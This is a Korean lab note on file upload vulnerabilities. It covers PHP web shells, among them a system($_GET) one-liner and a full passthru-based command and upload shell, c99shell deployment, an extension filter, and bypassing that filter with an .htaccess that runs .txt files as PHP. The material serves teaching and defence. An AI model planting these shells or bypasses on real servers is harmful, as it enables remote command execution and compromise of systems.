## File Upload 취약점

- File Upload 취약점
  - 웹 서버가 제공하는 파일 업로드 기능을 이용하여 악성 스크립트를 업로드 하는 공격
  - 서버에서 실행될 수 있는 파일을 업로드 하여 공격자가 원하는 기능을 동작하게 함
  - 적절한 검증 없이 파일 업로드 기능을 제공할 때 발생하는 취약점 → 확장자 검증 필요

- 피해 범위
  - 악성 스크립트를 이용한 시스템 명령 실행, 시스템 구조 파악

    > WEB Shell을 이용하여 공격 함

  - 간단한 Backdoor를 업로드 한 뒤 이를 이용하여 공격을 시도 함

- 공격 조건
  - 파일 업로드가 가능해야 함
  - 파일이 업로드된 디렉터리의 경로를 알아야 함
  - 파일이 업로드된 디렉터리의 실행 권한이 있어야 함

#### 실습

- phpinfo()

  ```
  # vim /var/www/html/test.php
  
  <?php
   //test.php
   phpinfo();
  
  ?>
  ```

  

  

- system("명령어")

  ```
  <?php
   //test.php
   //phpinfo();
   system("ls");
   
  ?>
  ```

  

  

  ```
  <?php
   //test.php
   //phpinfo();
   //system("ls");
   system("$_GET[arg]");
  
  ?>
  ```

  

- c99shell Upload

  

- c99webshell 실행

  - 업로드 여부 확인

    ```
    [root@localhost 바탕화면]# ls -al /var/www/html/board/upload/
    ```

    

  - webshell 접속

    ```
    http://서버주소/board/upload/c99shell.PhP
    ```

    

- 다른 webshell.php

  ```
  <html>
  	<head></head>
  	<body>
  		<div align="left">
  			<font size="2">Input command : </font>
  			<form name="cmd" method="post" enctype="multipart/form-data">
  				<input type="text" name="cmd" size="30" class="input"><br>
  				<pre>
  				<?php
  				if($_POST['cmd']){
  					$cmd = $_POST['cmd'];
  					passthru($cmd);
  				}
  				?>
  				</pre>
  			</form>
  		</div>
  		<hr>
  		<div align="left">
  			<font size="2">Uploader file : </font>
  			<form name="forml" method="post" enctype="multipart/form-data">
  				<input type="text" name="dir" size="30" value="<? passthru("pwd"); ?>">
  				<input type="submit" name="submit2" value="Upload">
  				<input type="file" name="file" size="15"
  				<pre>
  				<?php
  				$uploaded = $_FILES['file']['tmp_name'];
  				if(file_exists($uploaded)){
  					$pwddir = $_POST['dir'];
  					$real = $_FILES['file']['name'];
  					$dez = $pwddir."/".$real;
  					copy($uploaded, $dez);
  					echo "FILE UPLOADED TO $dez";	
  				}
  				?>
  				</pre>
  			</form>
  		</div>
  	</body>
  </html>
  ```

  - 업로드

    

  - 업로드 여부 확인

    ```
    [root@localhost 바탕화면]# ls -al /var/www/html/board/upload
    ```

    

  - webshell 실행

    ```
    http://서버주소/board/upload/webshell.php
    ```

    

  - 


## File Upload 취약점 보안

- File Upload 취약점 보안 대책
  - upload 되는 파일의 확장자를 검사 해야 함

    > 확장자에 대한 허용/거부 목록을 작성하여 검증 수행

  - 파일이 업로드 되는 디렉터리의 권한을 적절하게 설정해야 함

- 검증해야 할 확장자

  

- 확장자를 필터링

  - 파일명 안에 .html , .php가 있으면 업로드 불가

  - board/board_write.php > 등록  >board/board_write_ok.php

    ```
     if(preg_match("/.html|.php|.htm/i",$f_name))  
                     {
                     echo "<script>alert('해당 확장자를 가진 파일은 업로드 불가능 합니다.');
                   history.back();
                    </script>";
                     exit;
                   }
    ```

    

  - upload 차단되는지 테스트

    

    

- 확장자 필터링 우회

  - htaccess 를 이용하여 우회

  - webshell.php 를 복사하여 webshell.txt 로 변경

    

  - .htaccess 파일 생성

    ```
    cmd
    
    C:\Documents and Settings\ktest>cd c:\
    
    C:\>copy con .htaccess
    Addtype application/x-httpd-php .txt
    ^Z
            1개 파일이 복사되었습니다.
    
    C:\>type .htaccess
    Addtype application/x-httpd-php .txt  --> txt 파일을 php처럼 해석하게 해준다 
    ```

    

    

  - 게시판에 .htaccess 를 업로드

    

  - 게시판에 webshell.txt 를 업로드

    

  - http://서버주소/board/upload/webshell.txt

    

  - httpd.conf 파일 수정

    ```
    # vim /etc/httpd/conf/httpd.conf
    ```

    

  - 서비스 재시작

    ```
    # service httpd restart
    ```

    

  - 서버 재 접속

    

    ```
    /etc/httpd/conf/httpd.conf
    
    339 # AllowOverride None
    340     AllowOverride All
    ~
    1013 # php parsing format
    1014 Addtype application/x-httpd-php .php4 .php .phtml .ph .inc .html .htm  --> 전체 적용 되는 부분
    
    htaccess 를 사용하면 디렉터리별로 별도 지정 가능
    ```

  - 

    

    

  

